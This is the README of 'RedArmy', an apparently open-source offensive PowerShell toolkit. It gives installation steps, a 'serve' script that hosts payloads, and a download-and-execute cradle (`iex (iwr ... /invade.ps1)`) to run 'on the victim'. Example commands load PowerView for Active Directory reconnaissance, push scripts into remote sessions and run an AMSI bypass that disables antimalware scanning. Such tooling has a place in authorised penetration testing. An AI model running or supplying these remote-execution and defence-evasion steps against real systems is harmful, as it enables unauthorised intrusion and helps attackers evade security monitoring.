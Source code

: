 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach git checkout master # optional
$ git submodule foreach git pull # optional
```

## Configuration

RedArmy uses `config.default` by default. You can copy it to `config`
and delete or add lines as necessary.

Any filepaths starting with `./` will create `Invoke` functions rather
than `Get` functions. `Invoke` commands are generally for things that
aren't scope specific such as modifying system settings. See [the
default config](./config.default) for examples.

## Usage

```
$ ./serve [--port PORT] [--update] <ip>
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

- `iex (iwr -DisableKeepAlive -UseBasicParsing
  http://<ip>:<port>/invade.ps1)`

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into session
    - `Deploy-PowerView <session>`
- Load DLL object into current session
    - `Import-ADModuleDLL`
- Load DLL object into session
    - `Deploy-ADModuleDLL <session>`
- Run ps1 script
    - `Invoke-AMSIBypass`
- Run ps1 script in session
    - `Deploy-AMSIBypass <session>`
